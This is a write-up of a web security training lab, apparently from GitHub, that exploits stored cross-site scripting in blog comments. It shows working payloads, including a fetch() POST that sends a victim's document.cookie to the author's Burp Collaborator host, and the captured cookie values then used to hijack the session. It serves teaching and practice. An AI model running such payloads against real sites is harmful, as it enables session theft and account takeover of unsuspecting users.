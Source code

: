# Lab: Exploiting cross-site scripting to steal cookies

>This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

### First steps
My Burp Collaborator link: `if1w9ekwz1oini15l78c7vnvvm1cp1.burpcollaborator.net`

First I will use the alert() method to confirm that there is an XSS vulnerability. I created a new comment with the following payload in the comments section `<img src=x onerror=alert()>`. This triggered an alert, so we can confirm that this is vulnerable to stored dom XSS.

### Getting the cookie
To confirm that I can get the cookie, I added `document.cookie` into my payload like so: `<img src=x onerror=alert(document.cookie)>&name=<img src=x onerror=alert()>`

This worked, so now all we need to do is send the value of document.cookie to our burp collaborator instance

### Making a request to collaborator
Now I want to confirm that I can make a request to my collaborator instance through this exploit. I modified my payload like so and saw some data in my burp collaborator client: `<img src=x onerror=fetch("https://if1w9ekwz1oini15l78c7vnvvm1cp1.burpcollaborator.net")>`. I tried adding document.cookie as a subdomain of the request but that did not work

### Pivoting
Turns out that I can just directly create a script tag for this challenge, so this payload as a comment yields a DNS request `<script>fetch("https://if1w9ekwz1oini15l78c7vnvvm1cp1.burpcollaborator.net")</script>`. Since I wasn't able to make a GET request with the value of documnent.cookie as a subdomain, I decided to try a POST request. I had this idea because POST requests can send body content. My modified payload is as follows:

 `<script>fetch("https://if1w9ekwz1oini15l78c7vnvvm1cp1.burpcollaborator.net",{method: "POST", mode: "no-cors", body: document.cookie})</script>`

Looking at burp collaborator, we can see the body of the post request contains `secret=ywuqlwpW8rVDWGnRvJqhp2XNQvVlFJDb; session=me4wpMEILTsmZB0Lq9Arlv9QvndOkMq4`

### Solution
Completion of this lab is dependent on hijacking the user's session. To do this I just re-loaded the main page of the application and inserted the exfiltrated `secret` and `session` information. I am now logged in as this user, lab solved!